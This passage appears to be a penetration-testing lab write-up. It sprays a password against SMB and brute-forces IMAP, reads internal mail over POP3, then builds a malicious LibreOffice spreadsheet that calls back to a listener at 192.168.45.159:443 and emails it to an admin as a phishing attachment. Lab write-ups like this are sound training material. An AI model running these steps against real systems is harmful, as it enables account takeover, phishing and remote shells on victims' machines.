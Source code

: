 ```bash
sudo nxc smb $IP -u usernames -p SicMundusCreatusEst --continue-on-success
```

![image.png](image%209.png)

It doesn’t work, maybe we don’t know correct format of usernames.

```bash
gobuster dir -u http://$IP:8000/ -w /usr/share/wordlists/dirb/common.txt -t 30  -b 404,403,400
```

![image.png](image%2010.png)

Checking `imap` I found a match:

```bash
hydra -L usernames -p 'SicMundusCreatusEst' imap://$IP
```

![image.png](image%2011.png)

Let’s connect to POP3, you can do the same with `imap` too.

```bash
telnet $IP 110
user jonas
pass SicMundusCreatusEst
list
retr 1 #first email
```

![image.png](image%2012.png)

I see that it was sent using `sendemail`. We see email was sent from `agnes` to `mailadmin` and other members. We see that `agnes` asks for someone to send `spreadsheet` as the target is Windows I will assume they are talking about MS Office Suite.

Let’s quickly see other messages too:

![image.png](image%2013.png)

You see in the third message they say we will change suite to `LibreOffice`.

Let’s make malicious `.ods` file and send it to `mailadmin`. I am gonna use [MMG-LO](https://github.com/0bfxgh0st/MMG-LO) for creating malicious `.ods` file.

```bash
sudo python3 /opt/MMG-LO/mmg-ods.py windows 192.168.45.159 443
```

![image.png](image%2014.png)

Now let’s send an email using `sendemail` as they did:

```bash
sendemail -f 'jonas@localhost' -t 'mailadmin@localhost' -s 192.168.237.140:25 -u 'spreadsheet' -m 'spreadsheet you requested' -a file.ods
```
